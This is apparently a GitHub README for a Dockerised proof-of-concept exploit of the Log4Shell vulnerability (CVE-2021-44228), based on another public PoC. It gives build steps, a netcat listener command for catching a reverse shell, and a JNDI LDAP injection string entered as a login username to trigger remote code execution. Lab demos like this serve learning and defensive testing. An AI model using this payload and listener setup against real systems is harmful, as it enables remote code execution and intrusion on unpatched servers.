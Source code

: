 # log4j-poc

## An LDAP exploit for CVE-2021-44228 Log4Shell

### Description

The exploit code in this demo is based on that found at https://github.com/kozmer/log4j-shell-poc

### Prerequisites

This code requires Docker and Docker Compose

### Installation

``` git clone https://github.com/cyberxml/log4j-poc
cd log4j-poc
# edit docker-compose.yml to addjust the environment variables as needed.
# The listener IP address is the address of the machine on which you will run the netcat 'nc' listener
# This can be the local IP of the docker hostmachine.
docker-compose build
```

### Run

1. Setup you docker listener in the first terminal
    1. `nc -lv 10.10.10.31 9001`
1. Start the docker containers in a second terminal
    1. `docker-compose up`
1. Navigate to the web app on port 8080
    1. Navigate to http://10.10.10.31:8080/log4shell
        1. Enter the username: `admin`
        1. Enter the password: `password`
        1. Select the "login" button
        1. See the welcome screen 
    1. Return to login at http://10.10.10.31:8080/log4shell
        1. Enter the username `${jndi:ldap://172.16.238.11:1389/a}`
        1. Select the "login" button
        1. Check for connection on your `nc` listener
